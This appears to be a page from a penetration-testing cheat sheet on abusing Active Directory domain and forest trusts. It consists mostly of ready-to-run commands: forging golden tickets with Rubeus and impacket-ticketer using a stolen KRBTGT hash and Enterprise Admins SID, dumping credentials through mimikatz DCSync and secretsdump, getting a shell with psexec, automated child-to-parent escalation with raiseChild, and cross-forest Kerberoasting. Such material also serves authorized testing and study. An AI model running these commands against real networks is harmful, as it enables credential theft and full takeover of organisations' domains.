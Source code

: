**Create Golden Ticket with Rubeus**
```Bash
.\Rubeus.exe golden /rc4:<KRBTGT-HASH> /domain:CHILD.DOMAIN.LOCAL /sid:<SID-OF-CHILD-DOMAIN>  /sids:<SID-of-Enterperise-Admins-gropup-of-root-domain> /user:hacker /ptt
```
**DCSync**
```Bash
mimikatz # lsadump::dcsync /user:DOMAIN\lab_adm
```
If our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller
```Bash
mimikatz # lsadump::dcsync /user:DOMAIN\lab_adm /domain:DOMAIN.LOCAL
```
## **Child -> Parent Trusts from Linux**
---
```Bash
impacket-secretsdump child.domain.local/<owned_user>@<DCIP> -just-dc-user CHILD/krbtgt
```
```Bash
lookupsid.py child.domain.local/<owned_user>@<dcip> | grep "Domain SID"
```
```Bash
lookupsid.py child.domain.local/<owned_user>@<target-dc-ip> | grep -B12 "Enterprise Admins"
```
request ticket
```Bash
impacket-ticketer -nthash <krbtgthash> -domain CHILD.DOMAIN.LOCAL -domain-sid <CHILD DOMAIN SID> -extra-sid <enterprise-admins-sid> hacker
```
```Bash
export KRB5CCNAME=hacker.ccache 
```
```Bash
impacket-psexec CHILD.DOMAIN.LOCAL/hacker@dc01.domain.local -k -no-pass -target-ip <dc-ip>
```
### Automated attack
---
```Bash
raiseChild.py -target-exec <target-dc> child.domain.local/lab_adm
```
## Cross-Forest Trust Abuse - from Windows
---
**Cross-Forest Kerberoasting**
depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold
```Bash
Get-DomainUser -SPN -Domain DOMAIN2.LOCAL | select SamAccountName
```
```Bash
Get-DomainUser -Domain DOMAIN2.LOCAL -Identity sqlsvc |select samaccountname,memberof
```
```Bash
.\Rubeus.exe kerberoast /domain:DOMAIN2.LOCAL /user:sqlsvc /nowrap
```
**Admin Password Re-Use & Group Membership**
```Bash
Get-DomainForeignGroupMember -Domain DOMAIN2.LOCAL
```
```Bash
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```
```Bash
Enter-PSSession -ComputerName DC03.DOMAIN2.LOCAL -Credential DOMAIN\administrator
```
